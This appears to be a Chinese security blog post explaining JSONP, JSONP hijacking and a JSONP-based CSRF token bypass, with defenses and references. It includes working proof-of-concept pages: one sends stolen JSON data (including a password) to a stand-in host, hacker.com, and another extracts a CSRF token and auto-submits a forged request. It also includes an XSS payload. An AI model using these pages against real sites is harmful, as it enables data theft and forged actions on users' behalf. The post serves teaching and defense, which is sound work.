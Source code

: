 ```yaml
---
title: jsonp介绍及其安全风险
comments: true
date: 2022-01-12 22:27:40
tags: ["jsonp", "跨域"]
categories:
- 渗透测试
cover: https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220112223806037.png
top_img:
description:
---
```




## 简介

JSONP全称是`JSON with Padding` ，是基于JSON格式的为解决跨域请求资源而产生的解决方案。**他实现的基本原理是利用了HTML里script元素标签没有跨域限制**

**JSONP原理：**就是动态插入带有跨域url的script标签，然后调用回调函数，把我们需要的json数据作为参数传入，通过一些逻辑把数据显示在页面上。



比如通过script访问`http://www.test.com/index.html?jsonpcallback=callback`, 执行完script后，会调用callback函数，参数就是获取到的数据。

原理简介的例子：新建`callback.php`

```php
<?php
    header('Content-type: application/json');
    $callback = $_GET["callback"];
    //json数据
    $json_data = '{"user":"user1111","password":"12345678"}';
    //输出jsonp格式的数据
    echo $callback . "(" . $json_data . ")";
?>

```

新建`test.html`

```html
<!-- test.html -->

<html>
<head>
<title>Test</title>
<meta charset="utf-8">

<script type="text/javascript">
	function fun(obj){
		alert(obj["password"]);
	}
</script>
</head>

<body>
<script type="text/javascript" src="http://localhost/callback.php?callback=fun"></script>
</body>
</html>

```

访问test.html，页面会执行script，请求`http://127.0.0.1/callback.php?callback=fun`，然后将请求的内容作为参数，执行fun函数，fun函数将请求的内容alert出来。这样我们就实现了通过js操作跨域请求到的资源，绕过了同源策略。

![alert](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220112223611220.png)





## JSONP劫持

> JSONP劫持类似于CSRF漏洞

JSONP使用不当也会造成很多安全问题。

对于JSONP传输数据，正常的业务是用户在B域名下请求A域名下的数据，然后进行进一步操作。

但是对A域名的请求一般都需要身份验证，Hacker可以自己构造一个页面，诱惑用户去点击（在这个页面里，我们去请求A域名资源，然后回调函数将请求到的资源发回到hacker服务器上），以此来获取这些信息。



![jsonp漏洞用过程](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220112223806037.png)



POC如：test.html

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
<script type="text/javascript">
    function fun(obj){
        var myForm = document.createElement("form");
        myForm.action="http://hacker.com/redirect.php";
        myForm.method = "GET";  
        for ( var k in obj) {  
            var myInput = document.createElement("input");  
            myInput.setAttribute("name", k);  
            myInput.setAttribute("value", obj[k]);  
            myForm.appendChild(myInput);  
        }  
        document.body.appendChild(myForm);  
        myForm.submit();  
        document.body.removeChild(myForm);
    }
</script>
</head>
<body>
<script type="text/javascript" src="http://localhost/callback.php?callback=fun"></script>
</body>
</html>

```

诱导用户去访问此html，会以用户的身份访问`http://localhost/callback.php?callback=fun`,拿到敏感数据，然后执行fun函数，将数据发送给`http://hacker.com/redirect.php`。

然后hacker只需要在redirect.php里，将数据保存下来，然后重定向到baidu.com，堪称一次完美的JSONP劫持。



## 利用JSONP绕过token防护进行csrf攻击

场景假设：服务端判断接收到的请求包，如果含有callback参数就返回JSONP格式的数据，否则返回正常页面。代码如下：test.php

```php
<!-- callback.php -->

<?php
    header('Content-type: application/json');
    //json数据
    $json_data = '{"customername1":"user1","password":"12345678"}';
    if(isset($_GET["callback"])){
        $callback = $_GET["callback"];
        //如果含有callback参数，输出jsonp格式的数据
        echo $callback . "(" . $json_data . ")";
    }else{
        echo $json_data;
    }
?>
```

对于场景，如果存在JSONP劫持劫持，我们就可以获取到页面中的内容，提取出csrf_token，然后提交表单，造成csrf漏洞。示例利用代码如下：

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
</head>
<body>
<div id="test"></div>
<script type="text/javascript">
function test(obj){
    // 获取对象中的属性值
    var content = obj['html']
    // 正则匹配出参数值
    var token=content.match('token = "(.*?)"')[1];
    // 添加表单节点
    var parent=document.getElementById("test");
    var child=document.createElement("form");
    child.method="POST";
    child.action="http://vuln.com/del.html";
    child.id="test1"
    parent.appendChild(child);
    var parent_1=document.getElementById("test1");
    var child_1=document.createElement("input");
    child_1.type="hidden";child_1.name="token";child_1.value=token;
    var child_2=document.createElement("input");
    child_2.type="submit";
    parent_1.appendChild(child_1);
    parent_1.appendChild(child_2);
}
</script>
<script type="text/javascript" src="http://vuln.com/caozuo.html?htmlcallback=test"></script>
</body>
</html>
```

htmlcallback返回一个对象obj，以该对象作为参数传入test函数，操作对象中属性名为html的值，正则匹配出token，再加入表单，自动提交表单完成操作，用户点击该攻击页面即收到csrf攻击。





## JSONP劫持挖掘

首先需要尽可能的找到所有的接口，尤其是返回数据格式是JSONP的接口。(可以在数据包中检索关键词callback json jsonp email等，也可以加上callback参数，观察返回值是否变化)。

找到接口之后，还需要返回值包含敏感信息，并且能被不同的域的页面去请求获取(也就是是否存在refer限制,实际上，如果接口存在refer的限制，也是有可能被绕过的)





## 防御

- 限制来源refer
- 按照JSON格式标准输出（设置Content-Type : application/json; charset=utf-8），预防`http://127.0.0.1/getUsers.php?callback=<script>alert(/xss/)</script>`形式的xss
- 过滤callback函数名以及JSON数据输出，预防xss





## 参考文章

[jsonp介绍及其安全风险 - SAUCERMAN (saucer-man.com)](https://saucer-man.com/information_security/309.html#) 还是这位大佬写得好，小弟基本全是看的他的

[JSONP 劫持原理与挖掘方法 | K0rz3n's Blog](https://www.k0rz3n.com/2019/03/07/JSONP 劫持原理与挖掘方法/)

[JSONP绕过CSRF防护token - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/5143)

[分享一个jsonp劫持造成的新浪某社区CSRF蠕虫 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/HTML/sina-jsonp-hijacking-csrf-worm.html#)

[JSONP 安全攻防技术 - 知道创宇 (knownsec.com)](https://blog.knownsec.com/2015/03/jsonp_security_technic/)





